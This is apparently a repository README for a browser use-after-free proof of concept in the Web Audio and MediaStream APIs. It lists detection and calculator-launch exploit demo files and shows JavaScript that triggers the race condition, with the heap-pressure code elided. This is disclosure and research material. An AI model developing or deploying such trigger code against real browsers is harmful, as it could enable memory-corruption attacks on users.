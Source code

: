 - [Basic Detection PoC](poc/index.html) - Simple detection of the vulnerability
- [Advanced Detection PoC](poc/advanced_poc.html) - Sophisticated memory analysis and reporting
- [Exploit Demonstration PoC](poc/exploit_poc.html) - Calculator launch demonstration
- [Technical Documentation](poc/TECHNICAL_ANALYSIS.md) - Detailed vulnerability analysis
- [Testing Server](poc/serve.py) - Python server for local PoC testing

For a complete overview of the PoC implementation, please refer to the [PoC Documentation](poc/README.md).

The technical structure of our basic PoC is as follows:

```javascript
// Create audio context and nodes
const audioContext = new AudioContext();
const destination = audioContext.createMediaStreamDestination();
const oscillator = audioContext.createOscillator();
const gain = audioContext.createGain();

// Connect nodes to create audio graph
oscillator.connect(gain);
gain.connect(destination);
oscillator.start();

// Create worker for parallel execution
const worker = new Worker(URL.createObjectURL(new Blob([`
  onmessage = function(e) {
    postMessage('acknowledged');
  };
`])));

// Attempt to trigger race condition
setTimeout(() => {
  // Disconnect nodes
  oscillator.disconnect(gain);
  gain.disconnect(destination);

  // Manipulate MediaStream tracks
  try {
    const track = destination.stream.getAudioTracks()[0];
    track.stop();

    // Force garbage collection (not reliable)
    // [... heap pressure code ...]

    // Access potentially freed object
    destination.stream.getTracks().forEach(track => {
      track.enabled = false;
    });
  } catch (e) {
    console.log("Exception may indicate UAF: " + e.message);
  }
}, 0);
```
